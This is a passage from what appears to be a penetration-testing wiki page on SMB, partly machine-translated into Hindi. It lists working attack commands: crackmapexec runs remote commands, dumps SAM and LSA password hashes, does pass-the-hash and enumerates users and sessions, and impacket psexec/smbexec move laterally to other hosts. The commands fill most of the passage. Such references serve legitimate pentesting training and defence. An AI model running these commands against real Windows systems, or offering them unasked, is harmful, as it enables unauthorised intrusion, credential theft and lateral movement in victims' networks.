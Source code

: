 The command `smbstatus` gives information about the **server** and about **who is connected**.

## Authenticate using Kerberos

You can **authenticate** to **kerberos** using the tools **smbclient** and **rpcclient**:
```bash
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
```
## **कमांड निष्पादित करें**

### **crackmapexec**

crackmapexec किसी भी **mmcexec, smbexec, atexec, wmiexec** का **दुरुपयोग** करके कमांड निष्पादित कर सकता है, जिसमें **wmiexec** **डिफ़ॉल्ट** विधि है। आप पैरामीटर `--exec-method` के साथ अपनी पसंद की विकल्प को इंगित कर सकते हैं:
```bash
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -H <HASH> #Pass-The-Hash
```
### [**psexec**](../../windows-hardening/lateral-movement/psexec-and-winexec.md)**/**[**smbexec**](../../windows-hardening/lateral-movement/smbexec.md)

दोनों विकल्प **एक नई सेवा बनाएंगे** (SMB के माध्यम से _\pipe\svcctl_ का उपयोग करके) पीड़ित मशीन में और इसका उपयोग **कुछ निष्पादित करने** के लिए करेंगे (**psexec** एक निष्पादन योग्य फ़ाइल को ADMIN$ शेयर में **अपलोड** करेगा और **smbexec** **cmd.exe/powershell.exe** की ओर इशारा करेगा और तर्कों में पेलोड डालेगा --**फाइल-लेस तकनीक-**-).\
**अधिक जानकारी** के लिए [**psexec** ](../../windows-hardening/lateral-movement/psexec-and-winexec.md)और [**smbexec**](../../windows-hardening/lateral-movement/smbexec.md).\
**kali** में यह /usr/share/doc/python3-impacket/examples/ पर स्थित है।
```bash
#If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```
Using **parameter**`-k` आप **kerberos** के खिलाफ प्रमाणीकरण कर सकते हैं बजाय **NTLM** के।
